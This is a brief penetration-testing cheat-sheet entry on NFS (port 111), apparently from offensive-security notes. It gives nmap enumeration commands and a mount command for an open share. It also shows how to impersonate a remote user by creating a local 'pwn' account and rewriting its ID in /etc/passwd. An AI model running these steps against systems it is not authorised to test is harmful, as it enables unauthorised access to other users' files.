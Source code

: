 # 111 - NFS

```
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <RHOST>
```

`ls -l /usr/share/nmap/scripts/nfs*` or `nmap -p 111 --script nfs* <target>`

`mount -o nolock <target>:/<dir> ./nfs` mounting open nfs to 'nfs' in current directory

We can change our UUID to match UUID of remote user:

`adduser pwn`

`sed -i -e 's/<pwn users uuid>/<remote user uuid>/g' /etc/passwd` 

